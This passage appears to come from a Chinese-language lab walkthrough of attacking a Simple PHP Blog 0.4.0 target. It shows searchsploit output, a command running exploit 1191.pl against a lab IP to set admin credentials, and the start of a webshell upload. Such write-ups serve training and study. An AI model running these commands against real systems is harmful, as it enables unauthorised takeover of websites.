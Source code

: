 -   使用`searchsploit`搜索当前cms漏洞脚本并查看

-   ```shell
    └─$ searchsploit blog 0.4.0
    ------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                     |  Path
    ------------------------------------------------------------------- ---------------------------------
    EggBlog < 3.07 - Remote SQL Injection / Privilege Escalation       | php/webapps/1842.html
    Oracle WebLogic < 10.3.6 - 'wls-wsat' Component Deserialisation Re | multiple/remote/43458.py
    Simple PHP Blog 0.4 - 'colors.php' Multiple Cross-Site Scripting V | cgi/webapps/26463.txt
    Simple PHP Blog 0.4 - 'preview_cgi.php' Multiple Cross-Site Script | cgi/webapps/26461.txt
    Simple PHP Blog 0.4 - 'preview_static_cgi.php' Multiple Cross-Site | cgi/webapps/26462.txt
    Simple PHP Blog 0.4.0 - Multiple Remote s                          | php/webapps/1191.pl
    Simple PHP Blog 0.4.0 - Remote Command Execution (Metasploit)      | php/webapps/16883.rb
    ------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
                                                                                                         
    ┌──(kali㉿kali)-[~]
    └─$ searchsploit blog 0.4.0 -m 1191.pl
    [!] Could not find EDB-ID #
    
    
    [!] Could not find EDB-ID #0
    
    
      Exploit: Simple PHP Blog 0.4.0 - Multiple Remote s
          URL: https://www.exploit-db.com/exploits/1191
         Path: /usr/share/exploitdb/exploits/php/webapps/1191.pl
        Codes: OSVDB-19070, CVE-2005-2787, OSVDB-19012, CVE-2005-2733, OSVDB-17779, CVE-2005-2192
     Verified: True
    File Type: Perl script text executable
    Copied to: /home/kali/1191.pl
    
    ```

-   根据代码提示需要指定三个参数`-h -e -U -P `

-   ![image-20230525161550310](https://raw.githubusercontent.com/r0o983/images/main/image-20230525161550310.png)

-   >   ./1191.pl -h http://10.10.10.100/blog/ -e 3 -U admin -P admin

-   ![image-20230525161753111](https://raw.githubusercontent.com/r0o983/images/main/image-20230525161753111.png)

-   登陆后找到文件上传位置进行尝试上传webshell

-   ![image-20230525161921650](https://raw.githubusercontent.com/r0o983/images/main/image-20230525161921650.png)

-   找到文件上传位置并进行访问

-   ![image-20230525162147266](https://raw.githubusercontent.com/r0o983/images/main/image-20230525162147266.png)
